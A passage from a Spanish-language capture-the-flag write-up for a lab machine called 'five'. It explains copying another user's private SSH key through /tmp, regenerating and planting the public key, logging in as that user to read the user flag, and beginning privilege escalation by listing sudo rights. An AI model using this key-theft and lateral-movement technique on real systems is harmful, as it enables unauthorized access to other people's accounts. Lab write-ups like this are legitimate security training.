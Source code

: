 1. En primer lugar nos dirigiremos al directorio */tmp* para tener permisos de lectura y escritura, y así poder manipular los ficheros
2. Con *touch* lo que estamos realizando es generar un fichero (vacío), para que cuando copiemos la clave privada mantega los permisos del fichero creado y no del original, el cual heredaría sus permisos y no tendríamos capacidad de lectura
3. Copiamos la clave privada del directorio personal de *melisa*
4. Ponemos el permiso adecuado a la clave privada, donde solo nosotros podemos leer y escribir (si no al conectarnos nos dará error)
5. Aquí generamos la clave pública a partir de la privada, pues se entiende que la clave pública la utilizará en otros servicios
6. Ponemos la clave pública en el directorio personal de *melisa* para que pueda comprobar que nuestra clave privada coincide


### SSH

~~~
www-data@five:/tmp$ ssh -i id_rsa melisa@localhost -p 4444
Could not create directory '/var/www/.ssh'.
The authenticity of host '[localhost]:4444 ([127.0.0.1]:4444)' can't be established.
ECDSA key fingerprint is SHA256:jWQpYhXQJtOuJfrNjZvNSilLDT7fkbFxeioQzGTBY7Y.
Are you sure you want to continue connecting (yes/no)? yes
Failed to add the host to the list of known hosts (/var/www/.ssh/known_hosts).
Linux five 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Feb 22 20:55:20 2023 from 127.0.0.1
melisa@five:~$ ls
user.txt
melisa@five:~$ cat user.txt 
~~~~

Pues ya tenemos la flag de user, así que toca ir a por la de root.


## Escalada de privilegios

Vamos a revisar nuevamente los permisos que tenemos en este caso ya como *melisa*:

~~~bash
melisa@five:~$ sudo -l
Matching Defaults entries for melisa on five:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User melisa may run the following commands on five:
    (ALL) SETENV: NOPASSWD: /bin/pwd, /bin/arch, /bin/man, /bin/id, /bin/rm, /bin/clear
~~~
